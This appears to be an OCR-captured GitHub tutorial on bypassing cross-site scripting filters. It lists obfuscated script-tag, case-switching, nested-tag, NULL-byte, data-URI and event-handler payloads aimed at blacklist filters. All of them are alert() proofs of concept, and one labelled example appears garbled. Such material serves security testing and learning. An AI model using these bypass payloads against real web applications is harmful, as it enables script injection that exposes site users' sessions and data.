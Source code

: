 <u><h2>Beating the XSS filters</h2></u>

when you inject a payload, alot of times they will
not always run. then don't give up.
we need to beat the XSS filters there are there types 
of xss filters:
1. Signature based filters
2. Sanitation or encoding based filters
3. fixed maximum length

<h3><b>1. defeating signature/blacklist-Based filters</b></h3>

signature based filters are also called blacklist based filters.

<b>ways of introducing script code</b>

there are four broad ways to:
<h4><b>1. Script Tags:</b></h4>
There are numerous ways you can obfuscate script injections using tags by using somewhat convoluted syntax to wrap
the use of tags:

```
<object data="javascript:alert(1)">
<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html;base64, PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
```
<hr>

<h4>
<b>2. Weak Tag banning:</b>
</h4>

Its is possible to get around this by switching cases or 
weak rules 
```
<ScRiPt>alert(1);</ScRiPt> - Upper- & Lower-case characters
<ScRiPt>alert(1); - Upper- & Lower-case characters, without closing tag
<script/random>alert(1);</script> - Random string after the tag name
<script>alert(1);</script> - Newline after the tag name
<scr<script>ipt>alert(1)</scr<script>ipt> - Nested tags
<scr\x00ipt>alert(1)</scr\x00ipt> - NULL byte (IE up to v9)
```
<hr>

<h4>
<b>3. Numerous event handlers</b>
</h4>

Numerous event handlers can be used to by pass various 
black lists 

like
```
<style onload= alert(document.domain)//”>
<body onactivate=alert(1)>
<object type=image src=valid.gif onreadystatechange=alert(1)></object>
<img type=image src=valid.gif onreadystatechange=alert(1)>
<input type=image src=valid.gif onreadystatechange=alert(1)>
<isindex type=image src=valid.gif onreadystatechange=alert(1)>
```
<hr>
